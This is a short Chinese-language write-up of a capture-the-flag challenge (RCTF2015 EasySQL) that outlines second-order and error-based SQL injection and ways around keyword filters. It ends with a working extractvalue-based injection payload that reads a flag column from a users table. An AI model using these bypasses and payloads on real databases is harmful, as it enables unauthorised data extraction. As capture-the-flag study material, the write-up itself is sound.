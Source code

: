 # WP
[[RCTF2015]EasySQL_[rctf2015]easysql 1_penson by 小乌的博客-CSDN博客](https://blog.csdn.net/SopRomeo/article/details/107324563)
# 知识点
### 二次注入
### 报错注入
### 一些字符的绕过
#### `and`等连接符以及` `被过滤,
:::info
用`||``&&``^`替代
:::
#### `like`被过滤，`left``right``mid``substr`等字符串分割被过滤
:::info
用`regexp`替代`like`<br />用`reverse`替代字符串分割函数
:::

```sql
(extractvalue(1,concat(0x7e,(select(reverse(group_concat(real_flag_1s_here)))from(users)where(real_flag_1s_here)regexp('^f')))))
```
